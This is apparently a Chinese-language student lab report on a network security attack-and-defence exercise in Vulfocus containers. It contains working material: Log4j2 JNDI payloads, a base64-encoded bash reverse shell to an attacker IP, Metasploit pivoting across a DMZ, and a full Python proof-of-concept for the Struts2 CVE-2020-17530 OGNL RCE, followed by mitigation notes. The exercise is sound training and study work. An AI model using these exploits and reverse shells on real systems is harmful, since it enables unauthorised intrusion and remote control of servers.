





# 网络安全攻防实验

## 实验说明

团队分工跟练复现完成 网络安全(2021) 综合实验。无论团队由多少人所组成，以下按本次实践训练所涉及到的人员能力集合划分了以下团队角色。一人至少承担一种团队角色。

- 红队：需完成漏洞存在性验证和漏洞利用。
- 蓝队威胁监测：漏洞利用的持续检测和威胁识别与报告。
- 蓝队威胁处置：漏洞利用的缓解和漏洞修复（源代码级别和二进制级别两种）。

上述能力的基本评分原则参考“道术器”原则：最基础要求是能够跟练并复现网络安全(2021) 综合实验中演示实验使用到的工具；进阶标准是能够使用课程视频中**未使用**的工具或使用编程自动化、甚至是智能化的方式完成漏洞攻击或漏洞利用行为识别与处置。


## 实验过程

### 搭建基础环境

#### 1.配置虚拟机及其网卡

- 查看`kali`版本信息


- 配置网卡

配置两块网卡，一块是`NET`网络地址转换模式，另一块是`Host-only`仅主机模式。

```
sudo vim /etc/network/interfaces

allow-hotplug eth0
iface eth0 inet dhcp

allow-hotplug eth1
iface eth1 inet dhcp
```


```
sudo ifdown eth0 && sudo ifup eth0
sudo ifdown eth1 && sudo ifup eth1
```


- 启动`ssh`服务

```
sudo systemctl enable ssh
sudo systemctl start ssh

#查看ssh是否配置成功
ps aux | grep ssh
```


#### 2. 本地环境部署

本地`ssh`连接到`kali`虚拟机

从仓库拉取到本机的虚拟机系统中

```
git clone https://github.com/c4pr1c3/ctf-games.git
```


使用`Docker Compose`来构造`docker`环境

```
sudo apt update 
sudo apt install -y docker-compose jq
```


将当前用户添加到`docker`用户组，执行`docker`相关指令时不再需要`sudo`

```
sudo usermod -a -G docker kali
```

在`root`权限下使用`vim`指令进行编辑更换`docker`源，使用中科大`Docker Hub`镜像源

```
vim /etc/docker/daemon.json

#添加镜像
{
    "registry-mirrors": ["https://docker.mirrors.ustc.edu.cn/"]
}

systemctl restart ssh
```

重启`docker`服务使配置生效，退出`root`模式，并且重新进行`ssh`连接


下载`Vulfocus`镜像

```
docker pull vulfocus/vulfocus:latest
```


进入`vulfocus`目录下执行`bash start.sh`命令启动`Vulfocus`环境，选用`Host-only`网卡地址。

此操作需要在`root`用户权限下进行操作，但我们之前已经将当前用户添加至`docker`用户组，可以免`sudo`执行。

```
cd ctf-games/fofapro/vulfocus
bash start.sh
```


通过`docker ps`指令查看，在本地的80端口开启容器。


#### 3.配置`ssh`免密登录

- 首先生成密钥对
```
ssh-keygen -t rsa
```
提示输入信息，连续输入三次回车。此时会在~/.ssh目录下生成`id_rsa`和`id_rsa.pub`两个文件。(图中我已经进行过一次上述操作，所以出现两个文件已存在的提示)


- 再对公钥进行上传

```
ssh-copy-id kali@192.168.17.128
```

远程免密登录设置成功。


#### 4.本地`Vulfocus`

在宿主机上直接访问虚拟机的`Host-only`IP地址，进入到`Vulfocus`界面，输入用户名和密码均为`admin`登入。


在镜像管理中一键同步镜像，可以看到`Vulfocus`当前已提供的镜像。


可以对所需镜像进行下载并启动。


### `Log4j2 CVE-2021-44228`单个独立漏洞

#### 漏洞存在性验证

在`Vulfocus`镜像管理中搜索`Log4j2远程命令执行（CVE-2021-44228）`镜像并下载，完成后启动，打开浏览器访问地址`192.168.17.128:22404`。


访问端口为`22404`，容器名称为`romantic_lalande`。


进入容器

```
docker exec -it romantic_lalande bash
```


```
docker cp romantic_lalande:/demo/demo.jar ./
```


- 反编译

在虚拟机设置中打开`共享文件夹`，虚拟机中共享文件位于`/mnt/hgfs/Share`目录下，将`demo.jar`拷贝到共享目录。

```
sudo cp -r /home/kali/demo.jar /mnt/hgfs/Share
```


使用`jadx`反编译工具，在工具所在目录下使用`cmd`运行，在`GUI`界面打开`demo.jar`文件。


在`Log4j2RceApplication`类中，可以看到造成漏洞的代码部分。

#### 验证漏洞可利用性

构造`Poc`手动测试

访问网站 http://dnslog.cn/ 手动获取专属随机子域名`nzj62f.dnslog.cn`。

在浏览器上访问地址：`http://192.168.17.130:57863/hello?payload=77`。

通过`Burpsuite`抓包，修改 GET 请求的`payload`参数，并对 payload 参数进行url全字段编码。

```
payload=${jndi:ldap://2rgoay.dnslog.cn/exp}
```


#### 漏洞利用

在攻击者主机`attacker`上下载工具，具体工具目录在文件中的`tools`目录下。

```
https://github.com/bkfish/Apache-Log4j-Learning.git
```

攻击者主机上启动`7777`端口：

```
nc -l -p 7777
```

构造反弹shell的`payload`
```
bash -i >& /dev/tcp/192.168.17.130/7777 0>&1

# 将上述命令进行 base64 加密
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3LjEzMC83Nzc3IDA+JjE=
```

应用工具 JNDI-Injection-Exploit 搭建服务，格式为：

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “命令” -A “ip（攻击者主机）”
# 命令是想要靶机运行的命令
```

执行`JNDI-Injection-Exploit`

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3LjEzMC83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.17.130
```


使用 Burp Suite 进行抓包，修改GET http://192.168.17.130:57863/hello?payload=77 的 payload 参数为上图框中的内容并进行编码

```
${jndi:rmi://192.168.17.130:1099/z8ocvj}
```


在监听端口没有监听到，且执行`JNDI-Injection-Exploit`发生了报错。


### 跨网段渗透（常见的dmz）

#### 自定义拓扑场景

官方在线平台不提供场景镜像下载和分享，所以需要自行构建相应的拓扑场景和镜像。首先在网卡管理添加两个网卡`dmz`和`核心网`，具体设置图下图。



攻击者通过暴露在外的靶机渗透到`dmz`网络区，并将其作为跳板通过漏洞访问到核心网的靶机。


搭建好后进行上传，在`场景`中启动该场景，`docker ps`查看相关的镜像信息。


访问入口靶标的IP地址：192.169.17.130:19064。


#### 捕获容器的上下行流量

在**受害者主机**上记录保存后续攻击过程中的流量数据。

```
# 先查看目标容器名称或ID
docker ps 
container_name="5d82a6e5e2da"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```


可以通过`tmux`挂在后台。

#### 攻破靶标1
- 在**攻击者主机**上对`metasploit`进行基础配置并运行。

>Metasploit是一款开源的安全漏洞检测工具，可以用来发现漏洞，利用漏洞，提交漏洞，并实施攻击。用户也可以从其他漏洞扫描程序导入数据，基于漏洞主机的详细信息来发现可攻击漏洞。

```
# 初始化 metasploit 本地工作数据库
sudo msfdb init

# 启动 msfconsole
msfconsole
```


```
# 确认已连接 pgsql
db_status

# 建立工作区
workspace -a lan
```



- 根据我们已经了解到的相关信息，添加搜索词或者查看具体信息来筛选出要找的`exp`：`exploit/multi/http/struts2_multi_eval_ognl`

```
search struts2
```


```
# 查看 exp 详情
# 可以直接通过搜索结果编号，也可以通过搜索结果的 Name 字段
info 1
```

查看该exp的详细信息，看到其中CVE编号是我们要找的，由此发现我们也可以直接通过`search cve-2020-17530`查找。


- 使用我们要找的 exp 后，查看该 exp 提供的`payloads`，并选择合适的 exp payload 使用。

```
# 使用上述 exp
use exploit/multi/http/struts2_multi_eval_ognl

# 查看可用 exp payloads
show payloads
```


```
# 使用合适的 exp payload
set payload payload/cmd/unix/reverse_bash

# 查看 exp 可配置参数列表
show options
```


- 查看当前 payload 下的 exp 参数，并配置相关参数，确保所有`Required=yes`参数均正确配置，配置好后进行检查。

```
# 靶机 IP
set RHOSTS 192.168.17.130
# 靶机目标端口
set rport  19064          
# 攻击者主机 IP
set LHOST  192.168.17.129

# 再次检查 exp 配置参数列表
show options
```


- 进行 getshell ,如果攻击成功，查看打开的 reverse shell ,进入会话后发现无命令行交互提示信息，尝试 Bash 指令，查看目录`/tmp`，发现得到了`flag1`，成功打下第一个靶标。此时，不要着急退出，将会话挂在后台继续执行。

```
# getshell
exploit -j

# 如果攻击成功，查看打开的 reverse shell
sessions -l

# 进入会话 1
sessions -i 1

# 无命令行交互提示信息，试一试 Bash 指令
id
# get flag-1
ls /tmp

# 通过 CTRL-Z 将当前会话放到后台继续执行
```


#### 攻破靶标2-4

- 通过已攻破的主机寻找该靶机所在网段的其他主机，使用 MSF 中自带的路由转发功能，在已经获取的 meterpreter shell 的基础上添加一条去往“内网”的路由。

将已经获得的1号会话即外层主机shell升级为`meterpreter`。

```
# upgrade cmdshell to meterpreter shell
sessions -u 1
```


```
# 进入 meterpreter 会话 2
sessions -i 2

run autoroute -s 192.170.84.0/24

# 检查 Pivot 路由是否已创建成功
run autoroute -p
```


- 对其他主机进行端口扫描，选择7001端口。

```
# portscan through pivot
search portscan
use auxiliary/scanner/portscan/tcp
show options
# 根据子网掩码推导
set RHOSTS 192.170.84.2-254
# 根据「经验」
set rport 7001
# 根据「经验」
set threads 10
# 开始扫描
exploit
```


- 查看存活的其他主机的信息

```
# 等到扫描结果 100%
# 查看主机存活情况
hosts

# 查看发现的服务列表
services
```


- 设置`socks`代理，监听端口1080，重新打开一个攻击者主机的 ssh 会话查看端口监听情况，确定开启代理服务，接着编辑代理工具`proxychains`添加 socks5 代理。

```
# setup socks5 proxy 
search socks_proxy
use auxiliary/server/socks_proxy
run -j

# 新开一个 ssh 会话窗口
# 检查 1080 端口服务开放情况
sudo lsof -i tcp:1080 -l -n -P

# 编辑 /etc/proxychains4.conf
sudo sed -i.bak -r "s/socks4\s+127.0.0.1\s+9050/socks5 127.0.0.1 1080/g" /etc/proxychains4.conf

proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.170.84.2-5
```



- 确定主机存在的漏洞，设置好参数后`exploit`。

```
# search exploit
search cve-2019-2725
use 0

show options

# 分别设置不同的靶机 IP
set RHOSTS 192.170.84.2
# set RHOSTS 192.170.84.4
# set RHOSTS 192.170.84.5

set lhost 192.168.56.214

exploit
```


- 查看3，4，5号会话的`/tmp`目录，得到`flag2-4`

```
# get flag2-4
sessions -c "ls /tmp" -i 3,4,5
```


#### 攻破靶标5

要访问到核心网内的靶机，同样需要在`dmz`网络中找到跳板主机。

首先将三个主机（`192.170.84.2`、`192.170.84.4`、`192.170.84.5`）升级会话到`meterpreter`。


逐一进入升级后的会话通过`ipconfig`查看网卡，寻找拥有双网卡的主机。经查看，8号会话符合要求，主机IP为`192.170.84.5`。


- 添加路由实现内网访问，扫描存活主机。

```
# 将新发现的子网加入 Pivot Route
run autoroute -s 192.169.85.0/24
run autoroute -p

# 通过 CTRL-Z 将当前会话放到后台继续执行
use scanner/portscan/tcp
set RHOSTS 192.169.85.2-254
set ports 80
```

在8号会话下用`meterpreter shell`中直接访问IP地址来进行枚举测试。

```
# 尝试网络是否能访问
wget http://192.172.85.2
wget http://192.172.85.2 -O /tmp/result && cat /tmp/result

# 通过 index.php?cmd=ls /tmp 的方式执行
wget "http://192.169.85.2/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result
```


提交以上得到的所有`flag`，搭建的`dmz`场景网络均已攻破。


- 捕获的流量数据

在受害者主机上的`/home/kali/tcpdump/5d82a6e5e2da/`目录下可以看到之前捕获的流量数据文件`tcpdump.pcap`，点击打开可以查看攻击过程的数据情况。


###  `struts2-cve_2020_17530`

#### 脚本化攻击

- 漏洞描述

`Apache Struts`于2020年12月08日披露`S2-061 Struts`远程代码执行漏洞(CVE-2020-17530)，在使用某些`tag`等情况下可能存在`OGNL`表达式注入漏洞，从而造成远程代码执行，控制服务器等危害。

- 受影响版本：`Struts 2.0.0 - Struts 2.5.25`

- 验证漏洞存在性

```
http://192.168.17.130:42957/?id=%25%7b+%27test%27+%2b+(2000+%2b+20).toString()%7d
```


- 直接构造`payload`执行

```
http://192.168.17.130:42957/?id=%25{(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application[%27org.apache.tomcat.InstanceManager%27]).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr[%27struts.valueStack%27]).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d{%27id%27}).(%23res%3d%23exec.exec(%23cmd))}
```


- 通过`Poc`进行漏洞验证

```
# encoding=utf-8
import requests
import sys
from lxml import etree

def exp(url,cmd):
    payload="%25%7b(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application%5b%27org.apache.tomcat.InstanceManager%27%5d).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr%5b%27struts.valueStack%27%5d).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d%7b%27"+cmd+"%27%7d).(%23res%3d%23exec.exec(%23cmd))%7d"
    total_url=url+"/?id="+payload
    r=requests.get(total_url)
    page=r.text
    page=etree.HTML(page)
    data = page.xpath('//a[@id]/@id')
    print(data[0])
 
if __name__=='__main__':
    if len(sys.argv)!=3:
        print("[+]ussage: http://ip:port command")
    url=sys.argv[1]
    cmd=sys.argv[2]
exp(url,cmd)
```

执行脚本：
```
python exp.py http://192.168.17.130:42957 whoami
python exp.py http://192.168.17.130:42957 id
```


#### 漏洞缓解和修复

- `OGNL`的全称是对象图导航语言（ Object-Graph Navigation Language），它是一种用于获取和设置 Java 对象属性的开源表达式语言，以及其他附加功能，是Struts2的默认表达式语言。 OGNL 中的三个重要符号：#、%、$。 % 的用途是在标志属性为字符串类型时，计算OGNL表达式的值。如果使用 `%{...}` 语法应用强制 OGNL 评估，则标记的某些属性可能会执行双重评估。对不受信任的用户输入使用强制 OGNL 评估可能会导致远程代码执行和安全降级。

`S2-061`是对 S2-059 漏洞修复后的绕过。 S2-059 的修复补丁仅修复了沙盒绕过，但是并没有修复 OGNL 表达式的执行。

`S2-061`的修复官方对`DefaultExcludedPatternsChecker`类和`TextParseUtil`类进行了修改。

通过使用`#`符号来避免OGNL对表达式进行双重计算，比如<s:property value="#{'Hello ' + #name}" />





对用户方的建议：
- 升级到`Struts 2.5.26`或更高版本，或者使用`Struts 2.3.x`系列的最新版本。
- 使用安全插件，如`Struts2-secure-request`插件，来过滤恶意的`OGNL`表达式。
- 避免在标签属性中使用`% {x}`的形式，或者限制`x`的值的来源。

#### 

## 问题

- `镜像管理`中无法`一键同步`镜像，可以更换`kali`国内镜像源和`docker`镜像源，确保网络可以正常访问。

    - 更换`kali`国内镜像源

        ```
        sudo vim /etc/apt/sources.list
        ```

        ```
        # 中科大
        deb http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
        deb-src http://mirrors.ustc.edu.cn/kali kali-rolling main non-free contrib
        
        # 阿里云
        deb http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
        deb-src http://mirrors.aliyun.com/kali kali-rolling main non-free contrib
        
        # 清华大学
        deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
        deb-src https://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free
        ```

        

        保存后使用命令`sudo apt update`更新。

    - 更换`docker`镜像源

        此前已经添加过一个`docker`镜像源，为了确保镜像可以正常同步可以多添加几个。

        ```
        vim /etc/docker/daemon.json
        ```
        ```
        {
            "registry-mirrors" : [
            "https://registry.docker-cn.com",
            "http://hub-mirror.c.163.com",
            "https://docker.mirrors.ustc.edu.cn",
            "https://cr.console.aliyun.com",
            "https://mirror.ccs.tencentyun.com"
        ]
        }
        ```
        重启docker服务使配置生效：
        ```
        systemctl daemon-reload
        systemctl restart docker.service
        ```
        通过命令`docker info`查看是否配置成功。

        

- 磁盘空间不足，`docker`容器无法正常运行。
    

    在实验过程中总是碰到磁盘空间不足的问题，在网上查找解决办法，很多是通过删除无用镜像或者迁移路径的方法，但是治标不治本，不如直接给磁盘扩容，参考[Kali Linux磁盘扩容](https://zhuanlan.zhihu.com/p/574737232)。
    

- `POST`方法请求失败（未解决）
    ```
    curl -X POST http://192.168.17.130:25273/hello -d payload='"${jndi:ldap://usv85r.dnslog.cn/exp}"'

    ```
    进行`Log4j2远程命令执行`漏洞实验时，攻击者主机发送 POST 请求失败，只有 GET 方式可行。

    

    通过网页的`开发者模式`以及改用`Burpsuite`也只有 GET 方法可以成功，POST 方式均返回 405 错误。但是 GET 方法成功后dnslog没有记录。
    
    
    


## 参考链接

<https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4#/title-slide>

<https://cwiki.apache.org/confluence/display/WW/S2-061>

<https://github.com/apache/struts>

